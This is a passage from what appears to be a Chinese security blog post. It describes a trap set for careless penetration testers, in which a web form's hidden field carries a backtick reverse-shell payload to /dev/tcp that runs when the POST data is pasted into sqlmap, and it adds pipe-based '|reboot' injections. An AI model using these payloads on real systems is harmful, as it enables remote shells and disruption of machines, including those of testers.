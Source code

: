     <input type='hidden' name='name'value='Robin&id=4567&command=shell`bash -i >&/dev/tcp/192.168.xxx.xxx/2333 0>&1`&port=1234'/>
    
    <input type="button"onclick="myForm.submit()" value="Submit">
    
    </form>
    
    </body>
    
    </html>

访问该页面，进行查询时，发送到请求为：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091134.png)

这时，很多没有经验的安全渗透人员就可能将postdata，复制，粘贴，sqlmap执行之：

Boom！

## Par3：换个姿势，再来一遍

前两拍，为了所谓的神秘感，利用人们不常用的bash特性，强行装了一波。

但是，既然利用场景是：

    
    
    bash# exec "evil code"

那么事情可能会变得更加简单。

使用过Linux的，大多数都用到过管道(|)，而这个功能，能更好好的完成任务。

如果注入参数是：

    
    
    "|reboot" (参数中包含双引号)

那么执行的命令则为：

    
    
    bash# exec ""|reboot""

以上，我都假设的是，渗透人员将参数放入到双引号(“)中。但使用管道，单引号的问题也迎刃而解

针对单引号，可以将注入参数设置为：

    
    
    '|reboot'

Double Kill！

## Par4：尾声

以上都是我在测试一个网站时，其cookie中包含了

    
    
    "!+number"

导致了sqlmap语句的执行错误引起的。于是乎，深入追踪了下，发现其实主要原因属于bash的特性。如果利用这个特性做恶，的确存在一定的安全风险。
